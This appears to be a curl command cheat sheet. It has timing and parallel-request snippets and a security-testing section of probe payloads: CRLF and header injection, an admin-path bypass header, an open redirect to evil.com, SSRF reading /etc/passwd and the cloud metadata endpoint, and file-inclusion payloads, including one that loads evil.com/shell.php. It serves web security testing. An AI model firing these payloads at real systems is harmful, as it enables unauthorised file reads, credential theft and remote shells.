 ### Detailed Timing Information
```bash
curl -w "\n\nTiming Details:\n\
   time_namelookup:  %{time_namelookup}s\n      time_connect:  %{time_connect}s\n   time_appconnect:  %{time_appconnect}s\n  time_pretransfer:  %{time_pretransfer}s\n     time_redirect:  %{time_redirect}s\ntime_starttransfer:  %{time_starttransfer}s\n                   ----------\n        time_total:  %{time_total}s\n" -o /dev/null -s https://example.com
```

### Multiple Parallel Requests
```bash
# Using xargs for parallel requests
echo -e "https://example.com/1\nhttps://example.com/2" | xargs -P 10 -I {} curl -s -o /dev/null -w "%{url_effective} - %{http_code}\n" {}
```

## Security Testing

### HTTP Method Testing
```bash
# Test different HTTP methods
for method in GET POST PUT DELETE PATCH OPTIONS; do
    echo "$method:"
    curl -X $method -I https://example.com/api/resource
    echo "-------------------"
done
```

### Header Injection Testing
```bash
# Test for CRLF injection
curl -v "https://example.com/%0D%0ASet-Cookie:injected=1"

# Test for HTTP header injection
curl -H "X-Forwarded-For: 127.0.0.1" -H "X-Original-URL: /admin" https://example.com
```

### Open Redirect Testing
```bash
# Test for open redirects
curl -v "https://example.com/redirect?url=http://evil.com"
```

### SSRF Testing
```bash
# Test for SSRF
curl -v "http://example.com/fetch?url=file:///etc/passwd"
curl -v "http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/"
```

### File Inclusion Testing
```bash
# Test for LFI/RFI
curl -v "http://example.com/page.php?file=../../../../etc/passwd"
curl -v "http://example.com/page.php?file=http://evil.com/shell.php"
```
